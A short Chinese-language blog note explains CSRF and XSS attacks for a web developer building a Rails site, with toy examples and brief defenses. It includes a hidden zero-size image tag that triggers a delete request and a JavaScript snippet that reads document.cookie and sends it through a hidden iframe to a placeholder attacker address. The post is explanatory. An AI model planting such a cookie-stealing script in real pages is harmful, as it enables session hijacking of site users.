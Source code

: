 ```yaml
---
title:  CSRF 和 XSS
tags: 随想
---
```



最近在做一个网站，因爲涉及到比较重要的账号，我一直战战兢兢，生怕一个不小心就搞出问题了。好在，rails 在安全方面所做的努力比我做的多得多。

说到网络攻击，最常见到的两个词就是 CSRF 和 XSS。这是比较常见，也比较简单的攻击了。只要网站的设计者缺少这方面的常识，就能轻易攻击。不过现在的网站框架都会加上这方面的防护了吧？

不过，我还是想做个简短的笔记，来回忆这几天的想法。

### 什麽是 CSRF
Crossing Site Request Forgery，跨站请求僞造。是一种利用 Cookies 进行攻击的方式。

在解释 CSRF 前，我们先来了解一下 Cookies 和 Sessions。由于 HTTP 的无状态机制，任意两个网页之间都是无关联的。爲了让它们产生关联，诞生了 sessions 和 cookies。当我们打开网站时，都是一个会话(sessions)，浏览器会临时保存这个 sessions，服务器靠着 sessions 来识别衆多用户中谁是谁，正因爲 浏览器 保存着 sessions，服务器才有能力辨识，当前访问的用户是 A 不是 B。浏览器被关闭后，就会消去 sessions。而 cookies 是保存得更久一点的方法，即使浏览器关掉后，也会保留一段时间。

大坏蛋就利用这两个机制，发起了 CSRF。

举个简单的例子。小明在 A 网站（http://A.com）登录后，爲了保证访问下一个页面时，服务器知道他是小明，浏览器里保存了 Cookies，当访问该网站的下一个页面是，就会连同 Cookies 一同发出。之后小明发表了一篇 id 爲 3 的论文。大坏蛋的 B 网站里，有一张图片是这样的。

```js
<img src='https://A/delete?id=3' width='0' height='0' />
```
这段代码表示，在网页上显示长宽爲 0 的图片。虽然长宽爲 0，小明看不到，但浏览器却能看到，它会尝试访问 A 网站，并执行删除操作，将 id 爲 3 的文章删了。

如果是其它人的浏览器，访问了也就访问了，他们的浏览器访问 https://A/delete?id=3之后，并没有多大影响，因爲他们的浏览器里没有 cookies，没有登录，拒决了访问。

但对小明而言，这就是大问题了。小明的浏览器会访问 https://A/delete?id=3，然后将 A 网站的 Cookies 也一併伟过去。这个请求被A 网站的服备器收到，它们验证 Cookies，也没问题，是小明本人发过来的，那就执行删除操作吧。

于是，小明在不明不白的情况下，将自己发表在 A 网站上的文章删除了。

CSRF 是利用了用户对浏览器的信任，进行了攻击。XSS 和 CSRF 很像，但利用的是用户的另一个弱点。

### 什麽是XSS
和上面的方法很相似，攻击者在通过代码注入的形式，将攻击代码写入网页。

但它并非进行 CSRF 攻击，而是通过 JS 代码，获取打开网页的用户 cookies。

还是个简单的例子。

小明吸取了教训，在登录其它网站前，会登出 A 网站的用户，只有在访问 A 网站时，才会登录。

然而攻击者 小坏蛋 在 A 网站发表了一篇文章，然后在文章里注入

```js
// 用 <script type="text/javascript"></script> 包起来放在文章中
(function(window, document) {
    var cookies = document.cookie;
    var xssURIBase = "http://小坏蛋的IP/myxss/";
    var xssURI = xssURIBase + window.encodeURI(cookies);
    // 建立隐藏 iframe 用于通讯
    var hideFrame = document.createElement("iframe");
    hideFrame.height = 0;
    hideFrame.width = 0;
    hideFrame.style.display = "none";
    hideFrame.src = xssURI;
    document.body.appendChild(hideFrame);
})(window, document);
```
明面上，这篇文章没什麽问题，因爲 iframe 被隐藏了。但只要有人点开，就会触发上面的代码，将 cookies 发送到小坏蛋的网站。小坏蛋就获得了其他人的身份，大摇大摆的删除文章了。

与 CSRF 不同，这一次，小明并没有上不正规的网站，他浏览的是正规的 A 的网站，却依旧遭到了攻击。这一次，攻击的是 小明 对网站的信任。

所以，有些时候，我们不能将用户受到网络攻击，归到他们不注重自身安全（虽然很大一部分时间的确是这样的）。用户更多时候，是没有能力保证安全的，即使再注意，不上小网站，也会遭到 XSS 攻击。

因此在设计一个系统，一个网站时，我们要加强系统本身的抗打击能力。比如对付 CSRF，就验证访问源，使用 JWT 替代 cookies；对付 XSS，用过滤，警惕自己的用户。

道高一尺，魔高一丈。最近看了关于网络安全方面的文章，觉得自己还有很长的路要走。